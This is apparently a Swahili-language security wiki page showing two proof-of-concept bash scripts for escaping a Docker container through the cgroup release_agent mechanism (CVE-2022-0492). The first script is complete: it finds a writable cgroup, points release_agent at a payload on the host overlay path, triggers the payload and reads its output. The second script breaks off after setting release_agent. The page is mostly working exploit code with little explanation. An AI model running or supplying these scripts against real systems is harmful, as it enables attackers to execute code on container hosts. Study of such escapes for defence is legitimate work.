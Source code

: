 #### Kutoroka kwa Haki kwa Kutumia release\_agent iliyopo ([cve-2022-0492](https://unit42.paloaltonetworks.com/cve-2022-0492-cgroups/)) - PoC1

{% code title="PoC ya Awali" %}
```bash
# spawn a new container to exploit via:
# docker run --rm -it --privileged ubuntu bash

# Finds + enables a cgroup release_agent
# Looks for something like: /sys/fs/cgroup/*/release_agent
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
# If "d" is empty, this won't work, you need to use the next PoC

# Enables notify_on_release in the cgroup
mkdir -p $d/w;
echo 1 >$d/w/notify_on_release
# If you have a "Read-only file system" error, you need to use the next PoC

# Finds path of OverlayFS mount for container
# Unless the configuration explicitly exposes the mount point of the host filesystem
# see https://ajxchapman.github.io/containers/2020/11/19/privileged-container-escape.html
t=`sed -n 's/overlay \/ .*\perdir=\([^,]*\).*/\1/p' /etc/mtab`

# Sets release_agent to /path/payload
touch /o; echo $t/c > $d/release_agent

# Creates a payload
echo "#!/bin/sh" > /c
echo "ps > $t/o" >> /c
chmod +x /c

# Triggers the cgroup via empty cgroup.procs
sh -c "echo 0 > $d/w/cgroup.procs"; sleep 1

# Reads the output
cat /o
```
#### Kutoroka kwa Haki kwa Kutumia release_agent iliyoundwa ([cve-2022-0492](https://unit42.paloaltonetworks.com/cve-2022-0492-cgroups/)) - PoC2
```bash
# On the host
docker run --rm -it --cap-add=SYS_ADMIN --security-opt apparmor=unconfined ubuntu bash

# Mounts the RDMA cgroup controller and create a child cgroup
# This technique should work with the majority of cgroup controllers
# If you're following along and get "mount: /tmp/cgrp: special device cgroup does not exist"
# It's because your setup doesn't have the RDMA cgroup controller, try change rdma to memory to fix it
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
# If mount gives an error, this won't work, you need to use the first PoC

# Enables cgroup notifications on release of the "x" cgroup
echo 1 > /tmp/cgrp/x/notify_on_release

# Finds path of OverlayFS mount for container
# Unless the configuration explicitly exposes the mount point of the host filesystem
# see https://ajxchapman.github.io/containers/2020/11/19/privileged-container-escape.html
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`

# Sets release_agent to /path/payload
echo "$host_path/cmd" > /tmp/cgrp/release_agent

```